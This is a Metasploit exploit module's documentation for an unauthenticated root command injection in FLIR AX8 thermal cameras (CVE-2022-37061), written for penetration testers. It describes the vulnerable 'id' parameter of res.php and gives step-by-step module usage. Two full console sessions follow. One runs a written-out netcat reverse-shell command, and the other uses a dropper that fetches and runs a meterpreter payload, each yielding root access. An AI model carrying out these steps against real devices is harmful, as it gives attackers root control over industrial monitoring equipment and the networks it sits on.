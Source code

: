 ## Vulnerable Application

FLIR AX8 is a thermal sensor with imaging capabilities, combining thermal and visual cameras
that provides continuous temperature monitoring and alarming for critical electrical and mechanical equipment.
This device is typically used for monitoring industrial environments in a LAN based configuration.
Occasionally you can find a FLIR AX8 device where the HTTP web interface is exposed to the public internet.

FLIR AX8 is affected by an unauthenticated remote command injection vulnerability.
This can be exploited to inject and execute arbitrary shell commands as the root user through the `id` HTTP POST parameter
in `res.php` endpoint.
A successful exploit could allow the attacker to execute arbitrary commands on the underlying operating system with the root privileges.
This issue affects all FLIR AX8 thermal sensor cameras version up to and including `1.46.16`.

The endpoint /res.php can be called remotely without user authentication as there is no cookie verification `Cookie: PHPSESSID=ID`
to check if the request is legitimate. The second problem is that the POST parameter id can be injected to execute any unix command.

Installing a vulnerable test bed requires a FLIR AX8 camera with the vulnerable firmware loaded.

This module has been tested against a FLIR AX8 camera with the specifications listed below:

* FLIR AX8 thermal camera
* Firmware v1.40.16

## Verification Steps

1. `exploit(linux/http/flir_ax8_unauth_rce_cve_2022_37061`
1. `set RHOSTS <TARGET HOSTS>`
1. `set RPORT <port>`
1. `set LHOST <attacker host ip>`
1. `set LPORT <attacker host port>`
1. `set TARGET <0-Unix command or 1-Linux Dropper>`
1. `exploit`
1. You should get a `netcat` shell or `meterpreter` session depending on the target and payload settings.

## Options
No specific options.

## Scenarios

### FLIR AX8 netcat reverse shell

```
msf6 > use exploit/linux/http/flir_ax8_unauth_rce_cve_2022_37061
[*] Using configured payload cmd/unix/reverse_netcat
msf6 exploit(linux/http/flir_ax8_unauth_rce_cve_2022_37061) > options

Module options (exploit/linux/http/flir_ax8_unauth_rce_cve_2022_37061):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   Proxies                   no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                    yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
   RPORT    80               yes       The target port (TCP)
   SRVHOST  0.0.0.0          yes       The local host or network interface to listen on. This must be an address on the local machine or 0.0.0.0 to listen on all add
                                       resses.
   SRVPORT  8080             yes       The local port to listen on.
   SSL      false            no        Negotiate SSL/TLS for outgoing connections
   SSLCert                   no        Path to a custom SSL certificate (default is randomly generated)
   URIPATH                   no        The URI to use for this exploit (default is random)
   VHOST                     no        HTTP server virtual host


Payload options (cmd/unix/reverse_netcat):

   Name   Current Setting    Required  Description
   ----   ---------------    --------  -----------
   LHOST                     yes       The listen address (an interface may be specified)
   LPORT                     yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Unix Command


msf6 exploit(linux/http/flir_ax8_unauth_rce_cve_2022_37061) > set rhosts 192.168.100.180
rhosts => 192.168.100.180
msf6 exploit(linux/http/flir_ax8_unauth_rce_cve_2022_37061) > set lhost 192.168.100.7
lhost => 192.168.100.7
msf6 exploit(linux/http/flir_ax8_unauth_rce_cve_2022_37061) > set lport 4444
lport => 4444
msf6 exploit(linux/http/flir_ax8_unauth_rce_cve_2022_37061) > set target 0
target => 0
msf6 exploit(linux/http/flir_ax8_unauth_rce_cve_2022_37061) > exploit

[*] Started reverse TCP handler on 192.168.100.7:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Checking if 192.168.100.180:80 can be exploited!
[*] Performing command injection test issuing a sleep command of 10 seconds.
[*] Elapsed time: 10.947262728999704 seconds.
[+] The target is vulnerable. Successfully tested command injection.
[*] Executing Unix Command with mkfifo /tmp/eyhxvh; nc 192.168.100.7 4444 0</tmp/eyhxvh | /bin/sh >/tmp/eyhxvh 2>&1; rm /tmp/eyhxvh
[*] Command shell session 1 opened (127.0.0.1:4444 -> 127.0.0.1:37980) at 2022-10-21 07:00:16 +0000

whoami
root
uname -a
Linux neco 3.0.35-flir #1 PREEMPT Thu Oct 20 08:20:20 CET 2022 armv7l GNU/Linux
exit
```

### FLIR AX8 meterpreter session

```
msf6 > use exploit/linux/http/flir_ax8_unauth_rce_cve_2022_37061
[*] Using configured payload linux/armle/meterpreter_reverse_tcp
msf6 exploit(linux/http/flir_ax8_unauth_rce_cve_2022_37061) > options

Module options (exploit/linux/http/flir_ax8_unauth_rce_cve_2022_37061):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   Proxies                   no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                    yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
   RPORT    80               yes       The target port (TCP)
   SRVHOST  0.0.0.0          yes       The local host or network interface to listen on. This must be an address on the local machine or 0.0.0.0 to li>
                                       resses.
   SRVPORT  8080             yes       The local port to listen on.
   SSL      false            no        Negotiate SSL/TLS for outgoing connections
   SSLCert                   no        Path to a custom SSL certificate (default is randomly generated)
   URIPATH                   no        The URI to use for this exploit (default is random)
   VHOST                     no        HTTP server virtual host


Payload options (linux/armle/meterpreter_reverse_tcp):

   Name   Current Setting    Required  Description
   ----   ---------------    --------  -----------
   LHOST                     yes       The listen address (an interface may be specified)
   LPORT                     yes       The listen port


Exploit target:

   Id  Name
   --  ----
   1   Linux Dropper


msf6 exploit(linux/http/flir_ax8_unauth_rce_cve_2022_37061) > set rhosts 192.168.100.180
rhosts => 192.168.100.180
msf6 exploit(linux/http/flir_ax8_unauth_rce_cve_2022_37061) > set lhost 192.168.100.7
lhost => 192.168.100.7
msf6 exploit(linux/http/flir_ax8_unauth_rce_cve_2022_37061) > set lport 4444
lport => 4444
msf6 exploit(linux/http/flir_ax8_unauth_rce_cve_2022_37061) > set target 1
target => 1
msf6 exploit(linux/http/flir_ax8_unauth_rce_cve_2022_37061) > exploit

[*] Started reverse TCP handler on 192.168.100.7:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Checking if 192.168.100.180:80 can be exploited!
[*] Performing command injection test issuing a sleep command of 7 seconds.
[*] Elapsed time: 7.929586360999565 seconds.
[+] The target is vulnerable. Successfully tested command injection.
[*] Executing Linux Dropper
[*] Using URL: http://0.0.0.0:8080/GOCjBdalaU
[*] Client 127.0.0.1 (curl/7.33.0) requested /GOCjBdalaU
[*] Sending payload to 127.0.0.1 (curl/7.33.0)
[*] Meterpreter session 2 opened (127.0.0.1:4444 -> 127.0.0.1:56540) at 2022-10-21 07:02:57 +0000
[*] Command Stager progress - 100.00% done (125/125 bytes)
[*] Server stopped.

meterpreter > sysinfo
Computer     : 192.168.100.180
OS           :  (Linux neco 3.0.35-flir)
Architecture : armv7l
BuildTuple   : armv5l-linux-musleabi
Meterpreter  : armle/linux
meterpreter > getuid
Server username: root
meterpreter >
```

## Limitations
Staged payloads like `linux/armle/meterpreter/reverse_tcp` or `linux/armle/shell/reverse_tcp` do not work.
Manually tested these payloads with `msfvenom`, but they produce segmentation vaults when executed on the target.
However stageless payloads such as `linux/armle/meterpreter_reverse_tcp` and `linux/armle/shell_reverse_tcp` are working.
